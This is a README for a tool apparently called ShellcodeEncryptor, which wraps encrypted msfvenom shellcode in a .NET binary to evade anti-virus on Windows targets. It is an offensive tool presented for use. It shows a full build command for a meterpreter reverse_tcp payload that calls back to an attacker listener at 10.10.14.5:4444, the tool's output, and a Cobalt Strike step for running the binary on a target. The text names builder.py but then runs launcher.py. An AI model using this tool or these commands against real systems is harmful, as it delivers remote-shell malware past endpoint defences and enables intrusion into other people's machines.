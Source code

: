# ShellcodeEncryptor
A simple shell code encryptor/decryptor/executor to bypass anti virus.

![](https://raw.githubusercontent.com/plackyhacker/ShellcodeEncryptor/master/demo.gif)

# Purpose
To generate a .Net binary containing base64 encoded, AES encrypted shellcode that will execute on a Windows target, bypassing anti-virus.

# Instructions

Use the `builder.py` to create the executable (you will need `mono` installed on your Linux box):
```
root@kali:~# ./launcher.py -p windows/meterpreter/reverse_tcp --arch x86 --lport 4444 --lhost 10.10.14.5 --key my_super_key -f boom.exe
[+] Generating MSFVENOM payload...
[+] Encrypting the payload...
[+] Generating launcher.cs file...
[+] Compiling the launcher...
[+] Launcher compiled and written to ./boom.exe
[+] Have a nice day!
```

Take the resulting executable and run it on the target, for example (Cobalt Strike):
```
execute-assembly ./uploads/boom.exe
```

Hopefully you will have a nice meterpreter shell.

# Notes

The `builder.cs` file is provided as a reference.
Tested with x86 windows/meterpreter/reverse_tcp
